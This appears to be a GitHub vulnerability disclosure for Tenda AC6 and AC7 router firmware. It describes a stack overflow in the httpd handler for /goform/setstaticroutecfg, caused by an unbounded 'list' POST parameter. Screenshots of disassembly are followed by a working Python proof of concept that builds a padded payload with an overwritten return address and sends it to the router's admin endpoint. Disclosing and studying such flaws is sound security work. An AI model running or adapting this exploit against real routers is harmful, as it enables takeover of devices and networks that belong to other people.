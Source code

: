 # static_router_stackoverflow

Vender ：Tenda

Firmware version:US_AC6V1.0BR_V15.03.05.16_multi_TD01 US_AC7V1.0RTL_V15.03.06.44_multi_TD01
 
Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link:https://www.tenda.com.cn/download/detail-2661.html && https://www.tenda.com.cn/download/detail-2776.html 

#### Describe

  In Tenda AC6 ,firemware is US_AC6V1.0BR_V15.03.05.16_multi_TD01 ,The httpd component does not limit the length of the post parameter when setting the static route in /goform/setstaticroutecfg, resulting in stack overflow covering the return address and code execution

#### Detail

<img src="./img/image-20210917120859736.png" alt="image-20210917120859736" style="zoom:50%;" />

follow up sub_77EC8

<img src="./img/image-20210917121019246.png" alt="image-20210917121019246" style="zoom:50%;" />

<img src="./img/image-20210917123041024.png" alt="image-20210917123041024" style="zoom:50%;" />

 	Therefore, a stack overflow vulnerability is generated, which can cover the return address 

<img src="./img/image-20210917121219712.png" alt="image-20210917121219712" style="zoom:50%;" />



<img src="./img/image-20210917121127321.png" alt="image-20210917121127321" style="zoom:50%;" />



POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetStaticRouteCfg"


payload = "a"*7+"f"*7+"c"+"b"*(0x30)+p32(0x000697D8)+"d"*0x80

f=open("payload","w")
f.write(payload)
f.close()
f1=open("payload")
payload=payload+f1.read()
print payload
'''
proxies = {
  'http': 'http://127.0.0.1:8080',
  'https': 'http://127.0.0.1:8080',
}
'''
data={
	"list":"192.168.33.0,255.255.255.0,192.168.33.1,WAN1"+payload
}
headers={
	"Host":"192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/static_route.html?random=0.9469249426877971&",
	"Upgrade-Insecure-Requests":"1"
}

response = requests.request("POST", url, headers=headers, data=data)
```



